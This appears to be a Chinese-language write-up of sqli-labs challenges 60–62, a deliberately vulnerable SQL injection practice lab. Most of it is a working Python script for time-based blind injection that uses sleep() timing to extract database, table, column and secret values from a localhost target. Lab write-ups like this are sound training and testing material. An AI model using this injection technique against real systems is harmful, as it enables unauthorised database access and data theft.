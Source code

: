 ### 60 Challengs-2

闭合改成`")`
同上

### 61 Challengs-2

闭合改成`))`
同上

### 62 Challengs-3

盲注

```python 
# BLINE INJECT

import time
import requests


# uname=admin' and if(ascii(substr(select (database())),{},1),sleep(1),0);--+&passwd=123
def blind_inject(url, loc, mid, comp='>', target='database()'):
    params = {
        'id': f"1') and if(ascii(substr({target},{loc},1)){comp}{mid}, sleep(0.04),0); -- ",
    }
    time_start = time.time()
    req = requests.get(url=url, params=params)
    time_end = time.time()
    if time_end - time_start > 0.03:
        return 1
    else:
        return 0


url = "http://localhost/Less-62/"
# target = "database()"
# target = "(select group_concat(table_name) from information_schema.tables where table_schema='challenges')"
# target = "(select group_concat(column_name) from information_schema.columns where table_name='EUA0BMHZ9V')"
target = "(select group_concat(secret_WC6I) from challenges.EUA0BMHZ9V)"
res = ""
end = 0
for i in range(1, 1000):
    l = 32
    r = 126
    while l < r:
        mid = (l + r) // 2
        if blind_inject(url, i, mid, target=target):
            l = mid + 1
        else:
            r = mid

        # check end
        if l >= r:
            if not blind_inject(url, i, l, '=', target=target):
                end = 1
    if end:
        break
    res += chr(l)
    print(res)
```
